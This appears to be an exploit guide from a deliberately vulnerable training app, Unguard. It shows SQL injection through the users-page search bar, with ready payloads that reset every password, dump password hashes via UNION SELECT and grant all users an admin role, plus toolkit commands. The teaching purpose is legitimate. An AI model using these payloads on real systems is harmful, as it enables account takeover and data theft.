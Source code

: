 # SQL Injection

Utilizing [SQL injection](https://owasp.org/www-community/attacks/SQL_Injection) can lead to sensitive data being read
and/or databases to be modified (Insert/Update/Delete).
In addition, administrative operations such as shutting down the DBMS can also be completed.

Unguard provides the functionality to search for users on the Users page, and as the search string is not checked before
being inserted into an SQL statement, it is possible to insert SQL commands which will then be run.

## Preconditions and Requirements

For this exploit to work you need:

* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up

## Exploitation

To inject an SQL command, you simply need to log into Unguard, go to the users page, and then include some
SQL statements in the searchbar which need to be properly prepared (see the next chapter "w/o Toolkit CLI").

### w/o Toolkit CLI

SQL injections are possible via the frontend. As mentioned before, you can use the search bar on the users page to execute SQL code.

An example for an SQL statement to run:

```sql
UPDATE users
SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda'
WHERE 1 = 1;
```

This will set every user's password to 'password'.

To have this executed on the database, you need to modify the SQL command:
```
'; UPDATE users SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda' WHERE 1 = 1; --
```

If you want to see the results of a SELECT operation, you can use the UNION keyword:
```
' UNION SELECT id+9999, username, password_hash FROM users; --
```

This will display the password hash beneath the username for each user.

The statements you can execute on the users page are somewhat limited. SELECT, INSERT and UPDATE all work, and so does SHUTDOWN, but REMOVE, TRUNCATE, and DDL statements do not. This appears to be a limitation of the Go MySQL driver, which seemingly requires that these statements be executed with the Go method `Exec` and not with `QueryRows`, the method used in the Go code.


### With Toolkit CLI

Using the `ug-exploit` tool, SQL statements can be injected.
Make sure to use `ug-exploit login` first, as you need to be logged in to post a bio.

Afterwards, use `ug-exploit sql-inject-mariadb` and type your desired command.
When using the CLI, you only need to specify the SQL statement to be injected. In this example,
your input would just need to be:

```sql
UPDATE users
SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda'
WHERE 1 = 1;
```

A status code of 200 means that the statement was successfully executed, and 500 means that there was an error.

#### Examples

Giving everybody the AD_MANAGER role:
```sql
INSERT INTO users_roles (user_id, role_id) SELECT id AS user_id, (SELECT id FROM roles where name='AD_MANAGER') AS role_id FROM users WHERE id > 1;
```

## Further Details

* [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
